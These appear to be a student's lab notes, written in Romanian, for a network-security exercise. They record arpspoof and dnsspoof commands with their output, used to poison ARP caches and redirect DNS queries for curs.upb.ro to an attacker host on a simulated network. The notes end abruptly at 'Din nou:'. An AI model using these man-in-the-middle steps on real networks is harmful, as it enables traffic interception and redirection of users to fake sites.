 
```sh
# In terminalul 4
root@green:~# ping -c 1 red
PING red (192.168.1.2) 56(84) bytes of data.
64 bytes from red (192.168.1.2): icmp_seq=1 ttl=64 time=0.044 ms

--- red ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
```


> Observ ca adresa IP a lui **red** este `192.168.1.2`.

```sh
# In terminalul 4
root@red:~# touch - hosts
root@red:~# nano -l hosts
root@red:~# cat hosts
192.168.1.2	curs.upb.ro
```

> Aparent, NU merge daca pun si masca **/22**.

```sh
# In terminalul 2: Ctrl-C la arpspoof
```


```sh
# In terminalul 4
# Mesajele de mai jos vor aparea dupa "arpspoof" (sau nu stiu...am dat mai multe Ctrl-C uri la astea doua pana au mers)
root@red:~# dnsspoof -f hosts
dnsspoof: listening on red-eth0 [udp dst port 53 and not src 192.168.1.2]
192.168.2.2.52850 > 8.8.8.8.53:  49605+ A? curs.upb.ro
192.168.2.2.52850 > 8.8.8.8.53:  49605+ A? curs.upb.ro
192.168.2.2.34784 > 8.8.8.8.53:  49605+ A? curs.upb.ro
```


```sh
# In terminalul 2
root@red:~# arpspoof -i red-eth0 -t 192.168.2.2 192.168.0.100 -r
8e:33:20:7c:74:40 f6:d7:ed:6f:db:9 0806 42: arp reply 192.168.0.100 is-at 8e:33:20:7c:74:40
8e:33:20:7c:74:40 2:c8:2b:c:62:d2 0806 42: arp reply 192.168.2.2 is-at 8e:33:20:7c:74:40
8e:33:20:7c:74:40 f6:d7:ed:6f:db:9 0806 42: arp reply 192.168.0.100 is-at 8e:33:20:7c:74:40
8e:33:20:7c:74:40 2:c8:2b:c:62:d2 0806 42: arp reply 192.168.2.2 is-at 8e:33:20:7c:74:40
8e:33:20:7c:74:40 f6:d7:ed:6f:db:9 0806 42: arp reply 192.168.0.100 is-at 8e:33:20:7c:74:40
8e:33:20:7c:74:40 2:c8:2b:c:62:d2 0806 42: arp reply 192.168.2.2 is-at 8e:33:20:7c:74:40
8e:33:20:7c:74:40 f6:d7:ed:6f:db:9 0806 42: arp reply 192.168.0.100 is-at 8e:33:20:7c:74:40
8e:33:20:7c:74:40 2:c8:2b:c:62:d2 0806 42: arp reply 192.168.2.2 is-at 8e:33:20:7c:74:40
```


Din nou:

